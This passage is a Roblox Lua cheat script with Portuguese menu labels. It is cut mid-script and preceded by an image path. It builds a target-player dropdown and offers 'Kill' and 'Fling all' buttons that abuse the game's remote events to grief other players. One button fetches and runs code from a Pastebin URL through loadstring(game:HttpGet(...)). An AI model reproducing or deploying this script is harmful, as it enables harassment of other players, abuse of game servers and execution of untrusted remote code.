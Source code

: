 -- Lista de Players para Bring AvanÃ§ado
local killAdvancedPlayerList = {}
for _, player in ipairs(game.Players:GetPlayers()) do
table.insert(killAdvancedPlayerList, player.Name)
end

Tab:AddDropdown({
Name = "Selecionar Jogador",
Description = "Selecione o jogador alvo para o Bring AvanÃ§ado",
Options = killAdvancedPlayerList,
Callback = function(playerName)
selectedKillAdvancedPlayer = playerName
end
})

Tab:AddButton({
Name = "KILL (ative A animacÃ£o Deite-se)",
Description = "Equipa o item 'Couch' e teleporta o jogador selecionado",
Callback = function()
killAdvancedPlayer()
end
})

Tab:AddButton({
Name = "Puxar Todos (Trollar)",
     Callback = function()
     --KK
     
     local args = {
    [1] = "ClearAllTools"
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Clea1rTool1s"):FireServer(unpack(args))

	--Couch Item
	
	local args = {
    [1] = "PickingTools",
    [2] = "Couch"
}
 
game:GetService("ReplicatedStorage").RE:FindFirstChild("1Too1l"):InvokeServer(unpack(args))

--Fling aall

loadstring(game:HttpGet("https://pastebin.com/raw/zqyDSUWX"))()
   end
})

local Section = Tab:AddSection({
Name = "Kill V2 [!] PODE CONTER ERROS"
})


-- ServiÃ§os necessÃ¡rios
local playerService = game:GetService('Players')
local runService = game:GetService('RunService')
local localPlayer = playerService.LocalPlayer
local backpack = localPlayer:FindFirstChildOfClass('Backpack')
